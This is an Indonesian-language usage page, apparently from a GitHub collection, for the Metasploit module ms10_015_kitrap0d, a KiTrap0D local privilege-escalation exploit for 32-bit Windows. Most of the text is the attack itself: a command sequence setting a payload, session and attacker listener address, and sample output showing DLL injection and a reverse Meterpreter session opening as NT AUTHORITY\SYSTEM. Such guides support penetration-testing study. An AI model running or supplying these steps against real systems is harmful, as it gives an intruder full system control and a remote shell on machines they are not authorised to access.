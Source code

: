 # ms10_015_kitrap0d

Modul ini akan membuat sesi baru dengan hak akses `SYSTEM` melalui exploit `KiTrap0D` yang ditemukan oleh `Tavis Ormandy`. Jika sesi yang sedang digunakan sudah memiliki hak akses elevated (`administrator/SYSTEM`), maka exploit ini tidak akan dijalankan. Modul ini bergantung pada `kitrap0d.x86.dll`, dan tidak didukung pada edisi `Windows 64-bit` (`x64`), hanya untuk `Windows 32-bit` (`x86`).

## Penulis
- [Tavis Ormandy](https://x.com/taviso)
- [HD Moore](https://x.com/hdmoore)
- Pusscat
- [OJ Reeves](https://github.com/OJ)

# Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms10_015_kitrap0d
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 1936 launched.
[*] Reflectively injecting the DLL into 1936...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Meterpreter session 25 opened (192.168.1.11:4444 -> 192.168.1.54:1057) at 2025-05-17 08:10:04 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d/)
